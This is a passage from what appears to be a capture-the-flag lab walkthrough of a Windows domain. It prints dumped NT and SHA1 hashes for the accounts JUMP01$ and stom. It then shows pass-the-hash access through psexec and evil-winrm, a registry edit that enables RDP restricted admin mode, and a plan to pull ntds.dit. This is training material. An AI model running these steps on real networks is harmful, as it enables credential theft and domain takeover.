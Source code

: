 ```
--SNIP--
     76         == MSV ==
     77                 Username: JUMP01$
     78                 Domain: NEXURA
     79                 LM: NA
     80                 NT: fa04a67f5a8620d4ce87238f139a992b
     81                 SHA1: 8d45e4af84cfe51b8a6f8f483e955f0b0f281abc
     82                 DPAPI: 0000000000000000000000000000000000000000
--SNIP--
    293         == MSV ==
    294                 Username: stom
    295                 Domain: NEXURA
    296                 LM: NA
    297                 NT: 21ea958524cfd9a7791737f8d2f764fa
    298                 SHA1: f2fc2263e4d7cff0fbb19ef485891774f0ad6031
    299                 DPAPI: 06e85cb199e902a0145ff04963e7dd7200000000
--SNIP--
```
At this point we only have the hash and if we cant PTH with RDP unless we enable restricted admin mode, so we will have to try other methods of gaining access to the domain controller. At this point i was going to try psexec or evil-winrm and psexec is a lot easier so i went with that then i enabled restricted admin mode and conected to the machine via RDP.
## 08. Gaining Access to DC01
```
th@ddeu$ sudo proxychains impacket-psexec NEXURA/stom@172.16.119.10 -hashes :21ea958524cfd9a7791737f8d2f764fa
--SNIP--
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f

th@ddeu$ proxychains xfreerdp /v:172.16.119.7 /d:nexura.htb /u:stom /pth:'21ea958524cfd9a7791737f8d2f764fa' /cert:ignore /dynamic-resolution /drive:linux,/home/$USER/filetransfer
```
This did not work so im going to back out and use evil-winrm to connect to the machine
```
th@ddeu$ sudo apt install krb5-user
th@ddeu$ sudo vim /etc/krb5.conf
# MAKE SURE YOUR CONF HAS THE FOLLOWING
--SNIP--
     default_realm = NEXURA.HTB
--SNIP--
[realms]
     NEXURA.HTB = {
          kdc = DC01.NEXURA.HTB
     }
--SNIP--
th@ddeu$ sudo vim /etc/hosts
--SNIP--
#MAKE SURE YOUR FILE HAS THE FOLLOWING
172.16.119.11 DC01 dc01 DC01.NEXURA.HTB dc01.nexura.htb NEXURA.HTB nexura.htb
--SNIP--
th@ddeu$ proxychains evil-winrm -i DC01 -u stom -H 21ea958524cfd9a7791737f8d2f764fa 
*Evil-WinRM* PS C:\Users\stom\Documents> 
```
Now that we have access to the system we can try to grab the SYSTEM and ntds.dit files to dump them and get the administrator hash that we need to pass this lab.We can do this most easily by just creating a volume shadow copy and copying the files to our local system
